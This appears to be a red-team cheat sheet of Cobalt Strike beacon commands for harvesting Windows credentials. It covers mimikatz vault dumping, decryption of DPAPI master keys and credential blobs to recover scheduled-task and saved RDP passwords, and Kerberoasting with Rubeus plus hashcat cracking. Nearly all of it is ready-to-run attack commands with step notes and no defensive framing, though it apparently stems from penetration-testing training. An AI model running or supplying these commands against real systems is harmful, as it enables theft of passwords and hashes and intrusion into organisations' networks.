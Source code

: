 ```powershell
beacon> mimikatz !vault::list
beacon> mimikatz !vault::cred /patch
```
Part 1: Enumerate stored credentials
```powershell
0. Check if system has credentials stored in either web or windows vault
beacon> run vaultcmd /list
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
beacon> run vaultcmd /listcreds:"Web Credentials" /all
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```
Part 2.1: Scheduled Task Credentials
```powershell
# Part 2.1: Scheduled Task Credentials

1. Credentials for task scheduler are stored at below location in encrypted blob
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

2. Find the GUID of Master key associated with encrypted blob (F31...B6E)
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

3. Dump all the master keys and filter the one we need based on GUID identified in previous step
beacon> mimikatz !sekurlsa::dpapi

4. Use the Encrypted Blob and Master Key to decrypt and extract plain text password
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:<masterkey>
```
Part 2.2: Extracting stored RDP Password
```powershell
1. Enumerate the location of encrypted credentials blob (Returns ID of Enc blob and GUID of Master Key)
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles

2. Verify the credential blob in users cred directory (Note enc blob ID)
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

3. Master key is stored in users Protect directory (Note GUID of master key matching with Seatbelt)
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104

4. Decrypt the master key (Need to be execute in context of user who owns the key, use @ modifier)
beacon> mimikatz !sekurlsa::dpapi
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc

5. Use Master key to decrypt the credentials blob
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:<masterkey>
```
## Kerberos
### Kerberoasting
```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap

ps> hashcat -a 0 -m 13100 hashes wordlist
```